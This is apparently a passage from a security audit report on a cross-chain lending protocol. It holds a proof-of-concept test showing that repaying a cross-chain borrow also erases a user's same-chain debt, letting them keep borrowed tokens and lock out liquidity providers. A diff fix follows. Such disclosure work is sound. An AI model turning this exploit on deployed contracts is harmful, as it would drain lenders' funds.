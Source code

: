 ```javascript
        
        // 3. User borrows tokens (tokenB2) in chainB using chainA collateral (tokenA1) (cross chain borrow)
        vm.prank(user);
        routerA.borrowCrossChain(amountSmallBorrow, tokenA2, CHAIN_B_ID);
        assertEq(IERC20(tokenB2).balanceOf(user), amountSmallBorrow + amountLargeBorrow);

        // 4. User repays cross chain borrow
        uint32 _srcEid = 31337;
        vm.startPrank(user);
        IERC20(tokenB2).approve(address(coreRouterB), amountSmallBorrow);
        routerB.repayCrossChainBorrow(user, amountSmallBorrow, lTokenB2, _srcEid);
        vm.stopPrank();
        // User's cross chain borrow debt is extinguished
        userCrossChainCollaterals = lendStorageB.getCrossChainCollaterals(user, tokenB2);
        assertEq(userCrossChainCollaterals.length, 0);
        // User's same chain borrow debt is also extinguished
        LendStorage.BorrowMarketState memory userSameChainBorrow = lendStorageB.getBorrowBalance(user, lTokenB2);
        assertEq(userSameChainBorrow.amount, 0);

        // 5. User withdraws their collateral (from chainA and chainB) without issue
        vm.startPrank(user);
        uint256 userlTokenA1Balance = lendStorageA.totalInvestment(user, lTokenA1);
        uint256 userlTokenB1Balance = lendStorageB.totalInvestment(user, lTokenB1);
        coreRouterA.redeem(userlTokenA1Balance, payable(address(lTokenA1)));
        coreRouterB.redeem(userlTokenB1Balance, payable(address(lTokenB1)));
        vm.stopPrank();
        // User retains the collateral before the attack
        assertEq(IERC20(tokenA1).balanceOf(user), userTokenA1BalanceBefore);
        assertEq(IERC20(tokenB1).balanceOf(user), userTokenB1BalanceBefore);
        // User profits the additional tokens (tokenB2) from the same chain borrow in step 2 
        assertEq(IERC20(tokenB2).balanceOf(user), amountLargeBorrow);
        
        // 6. LPs cannot withdraw the liquidity provided despite having no debt
        uint256 LPlTokenB2Balance = lendStorageB.totalInvestment(LP, lTokenB2);
        vm.prank(LP);
        vm.expectRevert();
        coreRouterB.redeem(LPlTokenB2Balance, payable(address(lTokenB2)));
    }
```

### Mitigation

`CoreRouter::repayBorrowInternal` should only update same-chain borrow debt records if the repayment is made on the same-chain.

`CoreRouter::repayBorrowInternal`
```diff
+   if(_isSameChain) {
        if (repayAmountFinal == borrowedAmount) {
            lendStorage.removeBorrowBalance(borrower, _lToken);
            lendStorage.removeUserBorrowedAsset(borrower, _lToken);
        } else {
            lendStorage.updateBorrowBalance(
                borrower, _lToken, borrowedAmount - repayAmountFinal, LTokenInterface(_lToken).borrowIndex()
            );
        }
+   }
```